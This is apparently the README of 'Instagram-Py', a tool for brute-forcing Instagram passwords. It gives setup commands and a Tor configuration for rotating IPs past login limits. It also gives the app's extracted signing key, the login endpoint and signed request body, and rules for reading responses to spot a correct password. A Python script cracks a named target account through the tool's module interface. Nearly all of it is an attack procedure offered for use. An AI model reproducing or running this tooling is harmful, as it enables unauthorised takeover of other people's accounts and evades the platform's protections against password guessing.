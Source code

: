 ==============
 Instagram-Py 
==============

    | Instagram-py performs slick brute force attack on Instagram without any type of password limiting
    | and also resumes your attack in ease. 
    
    --DeathSec


.. image:: https://img.shields.io/github/issues/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/issues

.. image:: https://img.shields.io/github/forks/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/network
      
.. image:: https://img.shields.io/github/stars/deathsec/instagram-py.svg?style=flat-square
      :target: https://github.com/deathsec/instagram-py/stargazers

.. image:: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square   
      :target: https://raw.githubusercontent.com/deathsec/instagram-py/master/LICENSE

.. image:: https://img.shields.io/pypi/v/instagram-py.svg?style=flat-square
      :target: #



  
.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/preview.gif

.. image:: http://forthebadge.com/images/badges/built-with-love.svg
      :target: #
.. image:: http://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg
      :target: #
      
.. image:: http://forthebadge.com/images/badges/made-with-python.svg
      :target: #
      

      
-------
 Why?
-------

| **I Actually** started this **project** for **proof of concept** that we can brute force **Instagram** forever.
| When I created the prototype and posted on **Twitter** , I got a **lot of people** who wanted a simple slick tool to execute 
| brute force attack on **Instagram** , So I thought why reinvent the wheel?....
| So I searched **Github** and found nothing worth value , some were fake or poorly engineered!
| And here it is **a Authentic brute force tool for Instagram**


------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!

 **See the 'Algorimthm' section down below for more hackery!**

-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.



**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============

-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Now lets copy the config file to your hard drive!
 $ wget -O ~/instapy-config.json "https://git.io/v5DGy"

--------------------------------
    Configuring Instagram-Py
--------------------------------

Open your configuration file found in your home directory , this file is **very important**
located at **~/instapy-config.json** , do not change anything except tor configuration

::

 $ vim ~/instapy-config.json # open it with your favorite text editior!

**The configuration file looks like this ( do not copy this , download the file from repo )**

::

 {
  "api-url" : "https://i.instagram.com/api/v1/",
  "user-agent" : "Instagram 10.26.0 Android (18/4.3; 320dp..... ",
  "ig-sig-key" : "4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178",
  "ig-sig-version" : "4",
  "tor" : { 
     "server" : "127.0.0.1",
     "port" : "9050",
     "protocol" : "socks5",
     "control" : {
           "password" : "",
           "port" : "9051"
       }
   }
    
 }


**api-url** : do not change this unless you know what you are doing

**user-agent** : do not change this unless you know your stuff

**ig-sig_key** : never change this unless new release, this is extracted from the instagram apk file

**tor** : change everything according to your tor server configuration , do not mess up!

--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

::

 $ instagram-py your_account_username path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--countinue] [--verbose]
                    USERNAME [USERNAME ...] PASSWORD_LIST [PASSWORD_LIST ...]

 positional arguments:
   USERNAME         username for Instagram account
   PASSWORD_LIST    password list file to try with the given username.

 optional arguments:
   -h, --help       show this help message and exit
   --countinue, -c  Countinue the previous attack if found.
   --verbose, -v    Activate Verbose mode. ( Verbose level )

 example: instagram-py -v instatestgod__ rockyou.txt


===========
 Algorithm
===========

**Instagram-Py** uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who
wish to recreate this program in any other language.


**You can see this live when you run the tool in max verbosity**

::

 $ instagram-py -vvv instatestgod__ password_list.lst

**You can also use Instagram-Py as a module , so that you can also use it in your script**

-------------
 What we do
-------------

**Step 1:** Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=** , where the **guid** get parameter is a random 32 character string.
The random 32 character string can be generator using python's simple **uuid library** , to be specific **v4** of **UUID**.
So finally we just have to request the url **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb** and get the cookie named **csrftoken** , if we observe the **response header** we
could see that our cookie only **expires** next **year** the same day. So by this we only have to make this request once
and can use it for a year! How vulnerable is that?... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png 
      :target: #


**Step 2:** Build a post request with Instagram's signature.

This part is **simple** but may be difficult to setup , first i need to get instagram's signature
which is only present in their free apk from google play , Remember our **Strength can be our Weakness**
, All i have to do reverse engineer the apk and find the signature, lets call it **ig_sig**.

::
 
 ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
 ig_version = 4

**Instagram** uses **HMAC Authentication** for login stuff, so lets use python's **hmac library**.
But first we have to build our body which will be encoded in json for it to actually sign with 
**ig_sig** , So the post **body** looks likes this...


::
 
 phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 _csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
 username   = <TARGET ACCOUNT>
 guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 device_id  = android-<RANDOM 16 CHARACTER STRING>
 password   = <PASSWORD TO TRY>
 login_attempt_count = 0


The above will be encoded to **JSON** , So to test the password we have to post the data to this url
**https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA>** .

**<SIGNED BODY>:** using **HMAC** , sign our json encoded data with **ig_sig** and return a hexa value.

**<URL ENCODED JSON DATA>:** the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as **USERNAME** and password with **PASSWORD** we simply request this
url **https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D** 

**Take a look** how I did it... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png


**Step 3:** With the json response and response code , we determine the password is correct or wrong.

if **We get response 200** then the login is success but if we get **response 400** , We inspect the
**json data** for clues if it is the **correct password or invalid request or too many tries**.
So we inspect the **message** from instagram json response!

**Message = Challenge Required** , then the password is correct but instagram got some questions so
we must wait until the user logs in and answer the question and if we are lucky they will not change
the password and we could login in later(**Most of the time people won't change the password!**)

**Message = The password you entered is incorrect.** , then the password is incorrect for sure , try
another.

**Message as something like word invalid in it then** , some other error so just try again, can happen
because of wordlist encoding error which i ignored because all the worldlist have encoding error!

**Message = Too many tries** , Time to change our ip and loop but we don't want to change our magic cookie

**Thats it you just hacked instagram with a very simple algorithm!**

==============
 Contribution
==============

.. image:: https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square


Contribute anything you can to this repo **(Issues | Pull request)** , help is much **appreciated**.

---------------------
 How to contribute ?
---------------------

* Fork **https://github.com/DeathSec/Instagram-Py** via **Github**
* Clone the Forked repo to your computer
* Create a new branch with the name linked to the problem ( optional )
* Do your changes in the new branch

::

 $ git clone https://github.com/yourusername/instagram-py
 $ git checkout -b "Your new branch name"
 $ # DO YOUR CHANGES

* push the changes to your repo
* Merge your branch through a simple **pull request** to my repo explaning the changes you made.


===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintResource( username , password)
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 



**Refer the Wiki to get full information about the api , https://github.com/deathsec/instagram-py/wiki**




=============
   License
=============

The MIT License,

Copyright (C) 2017 The Future Shell , DeathSec
